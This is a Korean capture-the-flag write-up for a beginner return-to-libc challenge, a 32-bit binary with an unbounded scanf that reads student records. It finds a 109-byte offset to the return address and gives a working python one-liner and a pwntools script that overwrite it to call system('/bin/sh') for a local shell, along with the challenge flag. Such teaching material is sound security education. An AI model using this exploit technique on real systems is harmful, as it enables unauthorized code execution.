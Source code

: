 #  문제이름

### 과제물02



## 문제

오늘 양교수님이  2주차 과제물을 내주셨다.

과제는 구조체를 이용하여 이름 학번 주소 사이트를 입력 받고 출력하는 프로그램을 만들어 오라는 과제를 내주셨다.
이정도면 될려나?

**이 문제는 (RTL)Return-to-libc기법이 필요한 문제입니다.**



## 문제 취지

rtl 기법을 연습할 수 있는 문제입니다.

기본적인 system("/bin/sh") 을 사용해야 하며

두가지 모두 문제안에 포함되어 있어 rtl기법만 알면 쉽게 풀 수 있는문제입니다.

## 풀이 방법



![K-20191011-702275](https://user-images.githubusercontent.com/37978105/66646135-4333e200-ec60-11e9-8969-74d1c0d5c325.png)

sample이 출력이 된후 입력을 하나 하나 받는다 참고로 샘플의 블로그가 어느정도 힌트를 준다.



![K-20191011-702945](https://user-images.githubusercontent.com/37978105/66646201-79716180-ec60-11e9-94ee-bceb99e8e3b3.png)

입력후 출력까지 된 화면이며 Yes나 yes를 입력하면 다시 입력하고 출력이 된후 다시 입력할지 물어본다.





문제의 취약점은 다시 입력하시겠습니까? (Yes of yes) 이후 입력하는부분이  취약하다

저 부분은 입력제한을 해두지 않아 RET을 건들 수 있다.



그렇다면 먼저 RET까지 거리를 계산해야하므로

![K-20191011-680422](https://user-images.githubusercontent.com/37978105/66643424-a1a99200-ec59-11e9-83a7-a05dca2fdefb.png)

gdb로  disas input_data 를 한 화면인대 +338 strcmp 이전에 있는 +316 scnaf가 bof가 일어난다는 것을 알 수 있으며

> 0x0804941e <+305>:	lea eax,ebp-0x69
>
> 0x08049421 <+308>:	push eax

부분이  입력받는 buf의 주소인것을 알 수 있으며 0x69 = 105 + 4(sfp) = 109 가 RET까지 거리 인것을 알아낼 수 있다.



그리고 rtl에 필요한 system주소와 /bin/sh은  다음과 같이 구할 수 있다.

![K-20191011-672220](https://user-images.githubusercontent.com/37978105/66643980-d79b4600-ec5a-11e9-9830-de9757353b62.png)



익스 코드는 다음과 같이 짤 수 있다.

> python -c 'print "A"+" "+"1"+" "+"1"+" "+"A"+" "+"A"+" "+"A"*109+"\x60\x90\x04\x08"+"AAAA"+"\x34\xc0\x04\x08"';cat) | ./rtl

혹은 pwntools를 이용하면 다음과 같다.

```
from pwn import *
context.log_level = 'debug'
p=process("./rtl")

sys = 0x8049060
sh = 0x804c030

py = 'A'*109
py += p32(sys)
py += 'a'*4
py += p32(sh)

p.sendlineafter('>','a')
p.sendlineafter('>','1')
p.sendlineafter('>','1')
p.sendlineafter('>','a')
p.sendlineafter('>','a')
p.recvuntil("(Yes or yes)")

p.sendline(py)

p.interactive()
```



다음과 같이 쉘을 얻어 flag를 출력할 수 있다.

![](https://user-images.githubusercontent.com/37978105/66646576-7e82e080-ec61-11e9-9a3b-a62b27f1e9ff.png)



## Flag

scpCTF{H0w_AbOut_rT1_h3h3}



## 힌트

rtl기법을 잘 알고 계신가요?  

익스코드에 어려움을 겪고 계신다면 동방을 찾아와 주세요!!
